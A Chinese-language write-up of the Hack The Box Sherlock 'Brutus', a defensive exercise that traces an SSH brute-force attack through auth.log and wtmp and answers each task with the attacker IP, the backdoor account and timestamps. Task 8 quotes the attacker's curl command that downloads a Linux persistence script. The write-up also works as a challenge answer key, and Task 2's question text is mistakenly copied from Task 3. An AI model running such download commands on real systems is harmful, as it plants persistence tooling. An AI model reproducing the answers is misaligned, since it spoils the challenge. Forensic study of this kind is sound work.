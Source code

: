 ```yaml
---
weight: 999
title: "Brutus"
description: ""
icon: "article"
date: "2025-05-30T10:51:07+08:00"
lastmod: "2025-05-30T10:51:07+08:00"
draft: false
toc: true
---
```


解压密码为hacktheblue

>在这个非常简单的 Sherlock 任务中，您将熟悉 Unix 系统的 auth.log 和 wtmp 日志。我们将探讨一个 Confluence 服务器通过 SSH 服务遭受暴力破解的场景。攻击者获取服务器访问权限后，还进行了其他活动，这些都可以通过 auth.log 追踪。尽管 auth.log 主要用于暴力破解分析，但在本次调查中，我们将深入挖掘这一日志的全部潜力，包括权限提升、持久化攻击的迹象，甚至部分命令执行的可见性。

# Task1
>分析 auth.log 日志。攻击者用于实施暴力破解攻击的 IP 地址是什么？
>65.2.161.68


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423141308.png)

# Task2
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>root


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423141749.png)

# Task3
>识别攻击者手动登录服务器以执行其目标的时间戳。登录时间将与认证时间不同，可在 wtmp 记录中找到。
>2024-03-06 06:32:45

分析wtmp文件即可
# Task4
>SSH 登录会话在登录时会被跟踪并分配一个会话编号。攻击者针对问题 2 中用户账户的会话被分配了哪个会话编号？
>37


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423141749.png)

# Task5
>攻击者在服务器上添加了一个新用户作为其持久化策略的一部分，并赋予该新用户账户更高的权限。这个账户的名称是什么？
>cyberjunkie


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423143634.png)

# Task6
>用于通过创建新账户实现持久化的 MITRE ATT&CK 子技术 ID 是什么？
>T1136.001

技术为创建用户-本地用户
https://attack.mitre.org/techniques/T1136/
# Task7
>根据 auth.log，攻击者的第一次 SSH 会话何时结束？
>2024-03-06 06:37:24


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423144312.png)

# Task8
>攻击者登录其后门账户并利用其更高权限下载了一个脚本。使用 sudo 执行的具体完整命令是什么？
>/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh


![](https://m1st0rybucket.oss-cn-beijing.aliyuncs.com/pic/Pasted%20image%2020250423144414.png)